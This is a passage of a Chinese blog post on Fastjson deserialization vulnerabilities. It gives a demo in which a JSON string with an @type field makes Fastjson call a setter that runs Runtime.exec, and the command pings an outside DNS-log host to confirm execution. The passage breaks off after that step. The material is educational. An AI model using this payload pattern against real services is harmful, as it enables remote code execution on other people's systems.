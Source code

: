 ```yaml
---
layout: mypost
title: "Fastjson 反序列化漏洞"
categories: [Java安全]
---
```


## 前言

Fastjson 自从 17 年被爆出来 RCE 的漏洞，开发人员是不断的打补丁修复，但也是不断被绕过，挺有趣的，这篇文章就去记录一下其中的那些攻与防......

## 漏洞精髓

整体看下来，精髓之处共有两点：

1. 支持用户在 JSON 中通过 @type 字段指定反序列化的 Java 类。
2. 反序列化自动调用 Setter、Getter 等方法。（这点和传统意义 Java 原生的反序列化时自动调用 readObject 方法是异曲同工的）

针对这俩精髓点，去写个 demo 去做个演示：

新建一个 fastjson 软件包，在其中新建 Exploit 类如下-->

```java
package fastjson;

public class Exploit {
    public void setPayload(String cmd) throws Exception {
        Runtime.getRuntime().exec(cmd);
    }
}
```

新建 FastjsonDemo 类如下-->

```java
package fastjson;

import com.alibaba.fastjson.JSON;

public class FastjsonDemo {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"fastjson.Exploit\",\"Payload\":\"ping 6y7d5.cxsys.spacetab.top\"}";
        JSON.parseObject(payload);
    }
}
```

在 Exploit 类的 setPayload 方法下断点，调试运行 FastjsonDemo 类，会发现代码成功的走到断点处-->

![alt text](image-429.png)

此时也成功触发 DNS 请求，如下-->
